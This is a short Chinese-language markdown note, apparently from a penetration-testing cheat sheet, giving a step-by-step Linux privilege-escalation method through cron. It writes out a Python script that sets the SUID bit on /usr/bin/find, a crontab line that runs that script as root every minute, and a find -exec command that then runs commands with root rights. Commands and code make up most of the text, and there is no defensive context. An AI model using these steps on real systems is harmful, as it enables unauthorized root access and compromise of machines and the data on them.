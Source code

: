 # 定时任务提权
## 前提
1. 有修改/etc/crontab的权限
2. find有suid权限
## 实践
1. 编写一个py脚本在tmp下
```
#!/usr/bin/env python

import os
import sys
try:
      os.system('chmod u+s /usr/bin/find')
except:
      sys.exit()
```
2. 查看find是否具有suid权限
```
ls -alh /usr/bin/find
```

如果没有则执行命令添加suid权限

    chmod +s /usr/bin/find
3. 修改/etc/crontab文件，最下面添加数据
```
*/1 * * * * root /tmp/1.py
```
4. 等待一分钟后执行命令
```
find /tmp/1.py -exec "whoami" \;
```